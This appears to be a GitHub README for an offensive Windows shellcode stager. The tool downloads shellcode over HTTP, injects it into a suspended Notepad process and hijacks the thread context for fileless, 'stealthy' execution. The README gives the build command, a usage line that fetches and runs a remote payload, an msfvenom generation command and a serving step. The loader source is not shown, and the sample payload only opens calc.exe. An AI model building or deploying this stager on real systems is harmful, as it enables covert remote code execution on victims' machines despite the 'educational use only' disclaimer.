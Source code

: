 A simple Windows shellcode loader that downloads shellcode from a specified HTTP URL and injects it into a suspended process (`Notepad.exe`) using thread context hijacking.

## 🚀 Description

This tool demonstrates:
- Downloading remote shellcode via HTTP
- Allocating RWX memory with `VirtualAllocEx` in a suspended process
- Injecting shellcode into the suspended process's memory
- Hijacking the main thread’s context to execute shellcode (fileless execution)
- Using the `WinINet` API for stealthy network communication

> 🔐 Educational use only. Unauthorized use of this code is illegal.

## 📂 Filename

**Suspended-Process-Stager.cpp** – Console-based shellcode loader (C++)

## 📌 Technique

**In-memory shellcode execution over HTTP**

- **Download stage**: Retrieves shellcode from a remote URL
- **Memory stage**: Allocates executable memory (`PAGE_EXECUTE_READWRITE`) in a suspended process
- **Execution**: Hijacks thread context to transfer control to shellcode in the remote process

## 🧱 Requirements

- `x86_64-w64-mingw32-g++` (MinGW-w64)
- Windows target

## ⚙️ Build

```bash
x86_64-w64-mingw32-g++ Suspended-Process-Stager.cpp -o Suspended-Process-Stager.exe -static -lwininet -s -Wl,-subsystem,console
```

## 🧪 Usage

```bash
Suspended-Process-Stager.exe http://<ip_address>/shellcode.bin
```

## 🛠️ Example Shellcode Generation

Using msfvenom:
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o shellcode.bin
```

Serve with python:
```bash
python3 -m http.server 80
```

Then run
```bash
Suspended-Process-Stager.exe http://127.0.0.1/shellcode.bin
```

